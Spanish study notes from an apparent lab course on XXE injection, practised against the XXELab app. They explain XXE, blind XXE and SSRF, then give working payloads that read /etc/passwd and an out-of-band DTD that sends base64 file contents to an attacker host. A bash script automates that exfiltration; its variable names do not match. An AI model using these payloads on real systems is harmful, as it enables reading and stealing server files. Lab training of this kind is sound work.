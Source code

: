 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

![| 00x300](Pasted%20image%2020230420205723.png)
![00x300](Pasted%20image%2020230420205849.png)
![00x200](Pasted%20image%2020230420210056.png)
![00x200](Pasted%20image%2020230420210113.png)  ![00x200](Pasted%20image%2020230420210246.png)
![00x350](Pasted%20image%2020230420211907.png)
![00x280](Pasted%20image%2020230420212052.png)
Tambie podemos explotar
![00x400](Pasted%20image%2020230421134216.png)

## XML en la web

* Usaremos XML como codigo para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myName "omar">]>                                                        <!-- Colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "file:///etc/passwd">]>                                    <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "http://192.168.68.108/testXXE">]>            <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				&myFile;                                                              <!-- Llamamos a la entidad desde aqui -->
			</email>
		</name>
	</root>
```

## **XXE OOB Blind**
Cuando no se puede llamar la entidad desde el campo selecionado en la estructura, lo llamamos desde el DOCTYPE colocando el porcentaje al incio y final con el nombre. El archivo debe de tener la extension **.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>       <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				test@test.com                                                              <!-- Aveces no podemos llamar la entidad desde aqui -->
			</email>
		</name>
	</root>
```

* Asi es como hariamos un archivo .dtd externo
```bash
❯ nvim malicious.dtd                        # Creamos el archivo malicioso
```

* Haremos que el output en base64 me lo envie a mi maquina de atacante como una peticion por GET. Esto dentro del archivo  malicious.dtd
```xml
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;' >">                  <!-- Debemos de colocar el % en HEX = 25 --> 
%eval;                                                                                                   <!-- Debemos de llamar a las entidades --> 
%exfil; 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


Con este automatizas el proceso y puedes solicitar el archivo que quieras.
```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 
```

```bash
#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename

maliciuos_dtd="""
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=$myFilename">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;'>">                  
%eval;                                                                                                    
%exfil; """

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>      
<root><name><email>test@test.com</email></name></root>' &>/dev/null

cat response  | grep -oP "/?file=\K[^.*]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null

```